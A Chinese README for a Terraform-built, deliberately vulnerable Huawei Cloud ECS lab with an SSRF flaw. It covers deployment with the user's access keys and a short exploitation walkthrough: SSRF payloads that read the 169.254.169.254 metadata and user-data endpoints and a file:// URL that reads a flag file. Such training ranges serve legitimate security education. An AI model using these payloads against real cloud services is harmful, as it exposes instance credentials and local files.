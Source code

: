 # 华为云 ECS SSRF 漏洞环境

[English](./README.md) | 中文

## 描述信息

这是一个用于构建华为云 ECS SSRF 漏洞环境的靶场。

使用 Terraform 构建环境后，用户可以通过 SSRF 漏洞获取到 ECS 上的元数据、用户数据等信息。

## 环境搭建

在容器中执行以下命令

```shell
cd /TerraformGoat/huaweicloud/elastic_computing_service/ecs_ssrf/
```

编辑 `terraform.tfvars` 文件，在文件中填入你的 `huaweicloud_access_key` 和 `huaweicloud_secret_key`

> 在华为云「控制台 --》我的凭证」处可以找到访问密钥

```shell
vim terraform.tfvars
```

部署靶场

```shell
terraform init
terraform apply
```

> 在终端提示 `Enter a value:` 时，输入 `yes` 即可

![img](../../../images/1652069131.png)

环境搭建完后，在 Outputs 处可以看到靶场的访问地址，打开浏览器访问即可。

## 漏洞利用

在存在 SSRF 漏洞的 ECS 上，我们可以利用 SSRF 读取 ECS 的元数据、用户数据等信息。

读取元数据

```shell
http://169.254.169.254/latest/meta-data/
```

![img](../../../images/1652069248.png)

读取用户数据

> 前提是目标已经配置了用户数据，不然会返回 404

```shell
http://169.254.169.254/latest/user-data/
```

![img](../../../images/1652069336.png)

在用户数据信息中，可以看到在靶场的根目录下有个 flag 文件，尝试利用 SSRF 读取这个文件

```shell
file:///flag69152201.txt
```

![img](../../../images/1651825032.png)

成功读取到 flag 文件

## 销毁环境

```shell
terraform destroy
```
